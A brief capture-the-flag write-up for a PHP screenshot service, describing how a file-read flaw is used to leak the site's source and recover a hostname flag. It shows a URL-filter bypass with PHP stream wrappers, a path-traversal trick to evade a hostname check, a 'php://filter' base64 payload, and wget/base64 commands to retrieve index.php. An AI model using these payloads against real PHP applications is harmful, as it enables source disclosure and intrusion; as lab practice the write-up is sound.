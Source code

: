 """
Developer is generating screenshots using internal api servers , flag is the front server hostname (not the api hostname) , can you extract it ??"
"""

while trying this `GET /screenshot/?url=/pwn&server=http://internalapi7.local HTTP/1.1` 
it gives an error `file_get_contents(): php_network_getaddresses: getaddrinfo failed: Name or service not knownfile_get_contents(http://internalapi1.local/pwn): failed to open stream: php_network_getaddresses: getaddrinfo failed: Name or service not known
`
so basically its LFI vuln, beside the url filter its check for keyword "internalapi[1-9]\.local".

1. to bypass URL filter just use php wrapper : php:// , data:// , expect:// ...
[wrappers](https://www.php.net/manual/en/wrappers.php)

2. to bypass keyword ckeck just put it on path  : internalapi7.local/../index.php

payload : php://filter/convert.base64-encode/resource=internalapi7.local/../index.php

===> gives us path to image contains content of 'index.php' just wget it and base64 decode :

wget http://ec2-54-184-225-39.us-west-2.compute.amazonaws.com/screenshot/thumbs/2adb4e1cccb57d5b6aed3a9b2ea7e853.jpg -O index.php.txt

cat index.php.txt | base64 -d > index.php

FLAG : 
Server!Host@Flag

